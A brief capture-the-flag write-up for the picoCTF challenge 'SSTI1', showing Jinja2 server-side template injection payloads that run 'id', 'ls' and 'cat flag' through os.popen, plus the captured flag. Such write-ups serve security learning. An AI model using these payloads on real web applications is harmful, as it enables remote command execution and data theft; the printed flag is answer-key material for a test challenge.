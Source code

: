 # 1. SSTI1

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

<img width="575" height="444" alt="62750a98cf16788403fc63d5_SSTI20Chart" src="https://github.com/user-attachments/assets/77d6a569-3b66-4144-9e29-a13059c6aa69" />

used these payload commands to know it is jinja2.
```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
<img width="1657" height="520" alt="image" src="https://github.com/user-attachments/assets/57ae47cc-7efe-489b-a2ea-4803a7f467ea" />
got to know that we are running as a root user

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

<img width="1744" height="498" alt="image" src="https://github.com/user-attachments/assets/be08409f-34bc-4a0a-b2db-2ed8769e4fb5" />
listing out the files

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

<img width="1906" height="371" alt="image" src="https://github.com/user-attachments/assets/08ad9400-baae-4e99-b79b-b483b78b1267" />
cat the flag file

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

## Concepts learnt:
- what is ssti
- different paylaods
- jinja2 paylaods



